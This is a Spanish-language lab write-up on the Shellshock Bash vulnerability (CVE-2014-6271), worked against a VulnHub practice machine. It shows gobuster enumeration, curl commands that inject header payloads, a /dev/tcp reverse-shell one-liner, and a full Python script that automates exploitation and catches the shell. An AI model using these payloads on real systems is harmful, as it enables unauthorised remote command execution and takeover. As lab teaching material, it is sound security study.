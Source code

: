 ```yaml
---
title: "[Lab] Ataque ShellShock"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, shellshock]
---
```




# Ataque ShellShock



### Más info:

- Links
    
    deephacking - (”[https://deephacking.tech/shellshock-attack-pentesting-web/](https://deephacking.tech/shellshock-attack-pentesting-web/)”)
    
    Cloudflare - (”[https://blog.cloudflare.com/inside-shellshock/](https://blog.cloudflare.com/inside-shellshock/)”)
    

## ¿Qué es un ataque shellshock?

Shellshock es una vulnerabilidad asociada al CVE-2014-6271 que salió el 24 de septiembre de 2014 y afecta a la shell de Linux “Bash” hasta la versión 4.3. Esta vulnerabilidad permite una ejecución arbitraria de comandos.

Link de la máquina: [https://www.vulnhub.com/entry/sickos-11,132/](https://www.vulnhub.com/entry/sickos-11,132/)

Al hacer un reconocimiento a la página web, es posible encontrarse con el directorio “cgi-bin”, este directorio se crea automáticamente para colocar scripts para que interactúen con el servidor web.

```bash
gobuster dir -t 5 -u http://192.168.0.101 
--proxy http://192.168.0.101:3128 -w /usr/share/wordlists/
SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 
--add-slash
```

![Untitled](../assets/OWASP-TOP-10/SQL Truncation/Untitled.png)

Estos directorios pueden contener diferentes tipos de archivos, por ejemplo, se interesa encontrar archivos con extensiones como sh, pl, o cgi.

```bash
gobuster dir -t 5 -u http://192.168.0.101/cgi-bin/ --proxy 
http://192.168.0.101:3128 -w /usr/share/wordlists/
SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 
--add-slash -x pl,cgi,sh
```

![Untitled](../assets/OWASP-TOP-10/SQL Truncation/Untitled 1.png)

Como se puede ver se ve un formato JSON en el cual se está ejecutando el comando “uptime” de forma constante.

![Untitled](../assets/OWASP-TOP-10/SQL Truncation/Untitled 2.png)

## Explotación

Una vez identificado el archivo dentro del directorio “/cgi-bin/”, se enviará un payload en el cual se envía un curl a la dirección web apuntando al archivo en sí pero se le cambiará la cabecera de la petición, específicamente el “User-Agent”:

```bash
curl -s -H "User-Agent: () { :; }; echo 'Test'" 
http://192.168.101/cgi-bin/status 
--proxy "http://192.168.0.101:3128"
```

![Untitled](../assets/OWASP-TOP-10/SQL Truncation/Untitled 3.png)

También se podría hacer lo mismo con la cabecera “Referer”:

```bash
curl -s -H "Referer: () { :; }; echo; echo 'test'" 
http://192.168.0.101/cgi-bin/status 
--proxy "http://192.168.0.101:3128"
```

![Untitled](../assets/OWASP-TOP-10/SQL Truncation/Untitled 4.png)

Como se puede ver, la web es vulnerable a shellshock y se pueden ejecutar comandos remotamente, ahora se podría conseguir una reverse shell:

```bash
curl -s -H "User-Agent: () { :; }; echo; 
/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.108/443 0>&1'"
```

![Untitled](../assets/OWASP-TOP-10/SQL Truncation/Untitled 5.png)

*Cabe recalcar que al ejecutar un comando hay veces que es necesario especificar la ruta completa de ese comando, por ejemplo, si se quiere utilizar el comando “ping”, es posible que se necesite especificar la ruta completa “/usr/bin/ping”.*

## Script en Python - ShellShock

Este script automatizará lo hecho anteriormente, además establecerá una reverse shell de la máquina víctima al ser ejecutado.

```bash
#!/usr/bin/python3

import sys, requests, signal, threading
from pwn import *

def def_handler(sig, frame):
	print("\n\n[!] Exiting...\n")
	sys.exit(1)

#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "http://192.168.0.101/cgi-bin/status"
squid_proxy = {'http': 'http:192.168.0.101:3128'}
lport = 443

def shellshock_attack():

	header = {'User-Agent': "() { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.0.108/443 0>&1'"}

	r = requests.get(main_url, headers=header, proxies=squid_proxy)

if __name__ == '__main__':

	try:
		threading.Thread(target=shellshock_attack, 
args=()).start()
	except Exception as e:
		log.error(str(e))

	shell = listen(lport, timeout=20).wait_for_connection()

	if shell.sock is None:
		log.failure("Connection couldn't be stablished")
		sys.exit(1)
	else:
		shell.interactive()
```

![Untitled](../assets/OWASP-TOP-10/SQL Truncation/Untitled 6.png)
